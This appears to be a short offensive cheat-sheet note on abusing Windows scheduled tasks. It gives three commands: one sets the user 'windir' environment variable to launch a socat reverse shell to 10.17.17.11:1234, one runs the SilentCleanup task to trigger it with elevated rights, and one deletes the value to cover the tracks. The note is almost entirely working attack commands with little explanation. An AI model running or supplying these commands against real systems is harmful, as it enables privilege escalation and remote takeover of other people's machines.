 # Scheduled Tasks
edit environment variables used by programs in scheduled tasks to get a reverse shell(using disk-cleanup)

```text-plain
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:10.17.17.11:1234 EXEC:cmd.exe,pipes &REM " /f
```

```text-plain
schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

```text-plain
reg delete "HKCU\Environment" /v "windir" /f
```

![](Scheduled%20Tasks/24b5ce8c9a6cb1194ed66054bc2ed0.png)